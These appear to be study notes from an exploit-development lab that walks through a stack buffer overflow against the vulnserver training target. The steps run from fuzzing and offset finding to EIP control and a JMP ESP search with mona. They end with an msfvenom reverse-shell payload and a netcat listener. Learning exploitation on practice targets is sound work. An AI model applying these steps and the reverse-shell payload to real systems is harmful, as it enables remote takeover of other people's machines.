 # Exploit Development

## Downloading Our Materials

- victim machine: [vulnserver](https://github.com/stephenbradshaw/vulnserver) on windows 10.
- immunity debugger

## Buffer Overflows Explained

### Memory

- Kernel TOP
- Stack
- Heap
- Data
- Text BOTTOM

### Stack

- Extended Stack Pointer ESP - TOP
- Buffer Space
- Extended Base Pointer EBP - BOTTOM
- Extended Instruction Pointer EIP / Return Address

### Buffer

Buffer has a limited space, if you overflows it, you reach the EBP and EIP. Once in EIP, we can point to directions with malicious code to have a reverse shell.

## Spiking

Find a vulnerable part in a program.

- First, disable your windows protection.
- run vulnserver and immunity as an admin.
- in immunity, go to file and attach, hit play.
- in kali, run `nc -nv your-windows-ip 9999`, you should connect to vulnserver
- we test all the commands with weird characters `generic_send_tcp your-windows-ip 9999 stats.spk 0 0`
- same with `generic_send_tcp your-windows-ip 9999 trunk.spk 0 0`, now we're overflowing. Immunity pauses before the server crashes.

## Fuzzing

Send some characters to a specific command to see if we can break a program.

Like before, we're overflowing TRUN with As, but we want to know when we reach the limit.

- Make your python script executable `chmod +x fuzz.py`
- Run `./fuzz.py`
- We crashed at 2700 bytes.

## Finding the Offset

So that we can target the EIP.

- generate some code to send with `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000`, length is 3000 because it's more or less where we crashed.
- Make your python script executable `chmod +x offset.py`
- Run `./offset.py`, we're above the target, note down what you have for EIP in immunity: `386F4337`

- generate some code to send with `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 -q 386F4337`: exact match at offset 2003.

## Overwriting the EIP

- `shellcode = b"A" * 2003 + b"B" * 4` so that we overwrite the EIP with Bs.
- Make your python script executable `chmod +x overwrite.py`
- Run `./overwrite.py`, now EIP is 42424242, as we wanted, now we control the EIP.

## Finding Bad Characters

- we can use https://github.com/cytopia/badchars, copy one of the examples provided, to test characters on the program
- Make your python script executable `chmod +x badchars.py`
- Run `./badchars.py`
- in immunity, right click on ESP and follow in dump, we go through all the hex codes, from 01 to FF, everything seems in place in our case (it's an eye test: write down all the missing characters). If you have 2 bad characters in a row (B0), only worry about the first one.

## Finding the Right Module

Look for dll or something similar without memory protection in our program.

- we'll use https://github.com/corelan/mona, put `mona.py` in immunity folder called `PyCommands`
- type `!mona modules` in immunity command bar and hit enter
- we look for vulnserver modules with protections on false: `essfunc.dll` looks promising.
- in kali, `locate nasm_shell`, copy the ruby file.
- run `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
- `JMP ESP`, we jump to ESP, equivalent is FFE4, `exit`
- back to immunity, we enter `mona find -s "\xff\xe4" -m essfunc.dll`, we get the return address of the vulnerable dll.
- we edit our python code to target the vulnerable dll as EIP. We enter the return address in reverse 625011af becomes `"\xaf\x11\x50\x62"` (low bytes at the lowest address, high bytes at the highest address)

- in immunity, enter expression to follow: 625011af, we should find ffe4 (jmp esp), hit f2 to set a breakpoint on it.
- Make your python script executable `chmod +x jump.py`
- Run `./jump.py`

## Generating Shellcode and Gaining Root

- run `msfvenom -p windows/shell_reverse_tcp LHOST=your-kali-ip LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`, -p is payload, -f for filetype is in C, -a for architecture, -b for bad characters
- copy the result, check the payload size.
- in `shellcode.py`, we add the overflow, plus a little bit of padding with `"\x90" + 32` (NOP sled to help with the reliability of the exploit).
- open the listening port: `nc -nlvp 4444`
- Make your python script executable `chmod +x shellcode.py`
- Run `./shellcode.py`, now you got a shell on vulnserver.

## Python3 and More

- create a folder called mona, then in immunity: `!mona config -set workingfolder c:\mona`
- for bad characters: `!mona bytearray -cpb "\x00"`
- `!mona compare -f c:\mona\bytearray.bin -a 010AF9C8`
- `!mona jmp -r ESP -m "essfunc.dll"`
